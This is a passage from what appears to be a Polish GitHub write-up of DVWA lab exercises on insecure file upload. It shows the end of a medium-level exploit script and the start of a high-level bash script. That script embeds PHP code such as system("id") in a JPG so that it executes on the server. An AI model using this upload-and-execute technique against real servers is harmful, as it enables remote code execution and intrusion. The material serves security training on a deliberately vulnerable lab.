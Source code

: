 ```bash
execute_payload "$1" "$2"
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/upload_medium.gif "Po uruchomieniu skrypt wgrywa wskazany plik na serwer i zwraca jego wynik odwołując się bezpośrednio do pliku")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


<br/>

<br/>
<br/>

## DVWA Insecure File Upload #3 - High
Na wysokim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Sprawdzany jest zadeklarowany typ pliku
* Sprawdzane jest rozszerzenie pliku oraz sygnatura

#### Dane wejściowe:
| No. | Opis | Typ | Przykładowa wartość |
|------|-------------|------|---------------|
| 1 | DVWA base url | url | 10.10.10.10|
| 2 | prawidłowy plik JPG | plik | test.jpg|
| 3 | kod PHP | string | system("id"); |

#### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <jpg filename> <php command>"
  echo "Description: This script attempts to upload and execute a malicious file with embedded PHP code using the insecure file upload functionality"
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <jpg filename>  Any proper jpg image"
  echo "  <php command>   PHP command to be executed (without php tags, but WITH trailing semicolon)"
}

# Check if the required number of arguments are provided
if [[ $# -ne 3 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
```